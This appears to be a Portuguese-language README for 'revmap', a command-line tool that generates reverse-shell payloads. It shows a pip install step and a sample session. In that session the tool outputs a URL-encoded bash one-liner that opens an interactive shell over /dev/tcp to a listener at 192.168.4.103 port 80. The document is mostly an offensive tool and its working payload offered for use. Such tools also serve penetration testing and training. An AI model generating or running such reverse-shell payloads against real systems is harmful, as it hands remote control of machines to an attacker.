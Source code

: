 # Instalação

revmap requer **python3** e para baixá-lo só usar:

```sh
pip3 install revmap
```

# Executando revmap

```console
revmap --ip 192.168.4.103 --port 80
 ___ ___ _ _ _____ ___ ___
|  _| -_| | |     | .'| . |
|_| |___|\_/|_|_|_|__,|  _|
                      |_|

[tab] for commands suggestions
192.168.4.103 (80) [revmap] # bash
Do you want to use encoding?  (Yes/No) [revmap] # yes
Insert encode [revmap] # urlencode
bash%20-c%20%27exec%20bash%20-i%20%26%3E/dev/tcp/192.168.4.103/80%20%3C%261%27
192.168.4.103 (80) [revmap] #

```

<img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>
